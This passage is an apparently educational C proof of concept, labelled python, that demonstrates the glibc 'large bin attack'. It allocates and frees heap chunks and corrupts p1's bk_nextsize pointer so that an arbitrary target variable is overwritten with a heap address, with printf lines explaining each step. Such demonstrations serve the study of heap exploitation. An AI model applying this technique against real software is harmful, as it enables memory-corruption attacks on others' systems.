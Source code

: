 ```python
  printf("However, there is still one possible path to trigger large bin attack. The PoC is shown below : \n\n");

  printf("====================================================================\n\n");

  size_t target = 0;
  printf("Here is the target we want to overwrite (%p) : %lu\n\n",&target,target);
  size_t *p1 = malloc(0x428);
  printf("First, we allocate a large chunk [p1] (%p)\n",p1-2);
  size_t *g1 = malloc(0x18);
  printf("And another chunk to prevent consolidate\n");

  printf("\n");

  size_t *p2 = malloc(0x418);
  printf("We also allocate a second large chunk [p2]  (%p).\n",p2-2);
  printf("This chunk should be smaller than [p1] and belong to the same large bin.\n");
  size_t *g2 = malloc(0x18);
  printf("Once again, allocate a guard chunk to prevent consolidate\n");

  printf("\n");

  free(p1);
  printf("Free the larger of the two --> [p1] (%p)\n",p1-2);
  size_t *g3 = malloc(0x438);
  printf("Allocate a chunk larger than [p1] to insert [p1] into large bin\n");

  printf("\n");

  free(p2);
  printf("Free the smaller of the two --> [p2] (%p)\n",p2-2);
  printf("At this point, we have one chunk in large bin [p1] (%p),\n",p1-2);
  printf("               and one chunk in unsorted bin [p2] (%p)\n",p2-2);

  printf("\n");

  p1[3] = (size_t)((&target)-4);
  printf("Now modify the p1->bk_nextsize to [target-0x20] (%p)\n",(&target)-4);

  printf("\n");

  size_t *g4 = malloc(0x438);
  printf("Finally, allocate another chunk larger than [p2] (%p) to place [p2] (%p) into large bin\n", p2-2, p2-2);
  printf("Since glibc does not check chunk->bk_nextsize if the new inserted chunk is smaller than smallest,\n");
  printf("  the modified p1->bk_nextsize does not trigger any error\n");
  printf("Upon inserting [p2] (%p) into largebin, [p1](%p)->bk_nextsize->fd->nexsize is overwritten to address of [p2] (%p)\n", p2-2, p1-2, p2-2);

  printf("\n");

  printf("In out case here, target is now overwritten to address of [p2] (%p), [target] (%p)\n", p2-2, (void *)target);
  printf("Target (%p) : %p\n",&target,(size_t*)target);

  printf("\n");
  printf("====================================================================\n\n");

  assert((size_t)(p2-2) == target);

  return 0;
}
```